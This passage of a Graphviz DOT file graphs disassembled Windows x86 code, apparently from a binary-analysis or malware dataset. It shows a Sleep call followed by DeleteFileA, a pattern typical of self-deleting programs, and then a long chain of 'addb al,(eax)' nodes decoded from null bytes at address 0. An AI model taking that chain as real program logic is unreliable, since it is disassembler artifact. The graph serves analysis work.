a0x004012bfnop_ -> a0x004012c0popl_ecx [color="#000000"];
a0x004012c0popl_ecx -> a0x004012c1orl_ecx_ecx [color="#000000"];
a0x004012c1orl_ecx_ecx -> a0x004012c3je_0x004012ce [color="#000000"];
a0x004012c3je_0x004012ce -> a0x004012cepushl_0x2122UINT32 [color="#000000",label="T"];
a0x004012cepushl_0x2122UINT32 -> a0x004012d3call_0x004013e2 [color="#000000"];
a0x004012d3call_0x004013e2 -> a0x004013e2jmp_Sleep_kernel32_dll [color="#000000"];
a0x004013e2jmp_Sleep_kernel32_dll -> Sleep_kernel32_dll [color="#000000"];
Sleep_kernel32_dll -> a0x004012d8pushl_ebx [color="#000000"];
a0x004012d8pushl_ebx -> a0x004012d9call_0x004013a6 [color="#000000"];
a0x004012d9call_0x004013a6 -> a0x004013a6jmp_DeleteFileA_kernel32_dll [color="#000000"];
a0x004013a6jmp_DeleteFileA_kernel32_dll -> DeleteFileA_kernel32_dll [color="#000000"];
DeleteFileA_kernel32_dll -> a0x004012denop_ [color="#000000"];
a0x004012denop_ -> a0x004012dfnop_ [color="#000000"];
a0x004012dfnop_ -> a0x004012e0popl_eax [color="#000000"];
a0x004012e0popl_eax -> a0x004012e1popl_ebx [color="#000000"];
a0x004012e1popl_ebx -> a0x004012e2ret [color="#000000"];
a0x004012e2ret -> a0x00000000addb_al_eax_ [color="#000000"];
a0x00000000addb_al_eax_ -> a0x00000002addb_al_eax_ [color="#000000"];
a0x00000002addb_al_eax_ -> a0x00000004addb_al_eax_ [color="#000000"];
a0x00000004addb_al_eax_ -> a0x00000006addb_al_eax_ [color="#000000"];
a0x00000006addb_al_eax_ -> a0x00000008addb_al_eax_ [color="#000000"];
a0x00000008addb_al_eax_ -> a0x0000000aaddb_al_eax_ [color="#000000"];
a0x0000000aaddb_al_eax_ -> a0x0000000caddb_al_eax_ [color="#000000"];
a0x0000000caddb_al_eax_ -> a0x0000000eaddb_al_eax_ [color="#000000"];
a0x0000000eaddb_al_eax_ -> a0x00000010addb_al_eax_ [color="#000000"];
a0x00000010addb_al_eax_ -> a0x00000012addb_al_eax_ [color="#000000"];
a0x00000012addb_al_eax_ -> a0x00000014addb_al_eax_ [color="#000000"];
a0x00000014addb_al_eax_ -> a0x00000016addb_al_eax_ [color="#000000"];
a0x00000016addb_al_eax_ -> a0x00000018addb_al_eax_ [color="#000000"];
a0x00000018addb_al_eax_ -> a0x0000001aaddb_al_eax_ [color="#000000"];
a0x0000001aaddb_al_eax_ -> a0x0000001caddb_al_eax_ [color="#000000"];
a0x0000001caddb_al_eax_ -> a0x0000001eaddb_al_eax_ [color="#000000"];
a0x0000001eaddb_al_eax_ -> a0x00000020addb_al_eax_ [color="#000000"];
a0x00000020addb_al_eax_ -> a0x00000022addb_al_eax_ [color="#000000"];
a0x00000022addb_al_eax_ -> a0x00000024addb_al_eax_ [color="#000000"];
a0x00000024addb_al_eax_ -> a0x00000026addb_al_eax_ [color="#000000"];
a0x00000026addb_al_eax_ -> a0x00000028addb_al_eax_ [color="#000000"];
a0x00000028addb_al_eax_ -> a0x0000002aaddb_al_eax_ [color="#000000"];
a0x0000002aaddb_al_eax_ -> a0x0000002caddb_al_eax_ [color="#000000"];
a0x0000002caddb_al_eax_ -> a0x0000002eaddb_al_eax_ [color="#000000"];
a0x0000002eaddb_al_eax_ -> a0x00000030addb_al_eax_ [color="#000000"];
a0x00000030addb_al_eax_ -> a0x00000032addb_al_eax_ [color="#000000"];
a0x00000032addb_al_eax_ -> a0x00000034addb_al_eax_ [color="#000000"];
a0x00000034addb_al_eax_ -> a0x00000036addb_al_eax_ [color="#000000"];
a0x00000036addb_al_eax_ -> a0x00000038addb_al_eax_ [color="#000000"];
a0x00000038addb_al_eax_ -> a0x0000003aaddb_al_eax_ [color="#000000"];
a0x0000003aaddb_al_eax_ -> a0x0000003caddb_al_eax_ [color="#000000"];
a0x0000003caddb_al_eax_ -> a0x0000003eaddb_al_eax_ [color="#000000"];
a0x0000003eaddb_al_eax_ -> a0x00000040addb_al_eax_ [color="#000000"];
a0x00000040addb_al_eax_ -> a0x00000042addb_al_eax_ [color="#000000"];
a0x00000042addb_al_eax_ -> a0x00000044addb_al_eax_ [color="#000000"];
a0x00000044addb_al_eax_ -> a0x00000046addb_al_eax_ [color="#000000"];
a0x00000046addb_al_eax_ -> a0x00000048addb_al_eax_ [color="#000000"];
a0x00000048addb_al_eax_ -> a0x0000004aaddb_al_eax_ [color="#000000"];
a0x0000004aaddb_al_eax_ -> a0x0000004caddb_al_eax_ [color="#000000"];
a0x0000004caddb_al_eax_ -> a0x0000004eaddb_al_eax_ [color="#000000"];
a0x0000004eaddb_al_eax_ -> a0x00000050addb_al_eax_ [color="#000000"];
a0x00000050addb_al_eax_ -> a0x00000052addb_al_eax_ [color="#000000"];
a0x00000052addb_al_eax_ -> a0x00000054addb_al_eax_ [color="#000000"];
a0x00000054addb_al_eax_ -> a0x00000056addb_al_eax_ [color="#000000"];
a0x00000056addb_al_eax_ -> a0x00000058addb_al_eax_ [color="#000000"];
a0x00000058addb_al_eax_ -> a0x0000005aaddb_al_eax_ [color="#000000"];
a0x0000005aaddb_al_eax_ -> a0x0000005caddb_al_eax_ [color="#000000"];
a0x0000005caddb_al_eax_ -> a0x0000005eaddb_al_eax_ [color="#000000"];
a0x0000005eaddb_al_eax_ -> a0x00000060addb_al_eax_ [color="#000000"];
a0x00000060addb_al_eax_ -> a0x00000062addb_al_eax_ [color="#000000"];
a0x00000062addb_al_eax_ -> a0x00000064addb_al_eax_ [color="#000000"];
a0x00000064addb_al_eax_ -> a0x00000066addb_al_eax_ [color="#000000"];
}
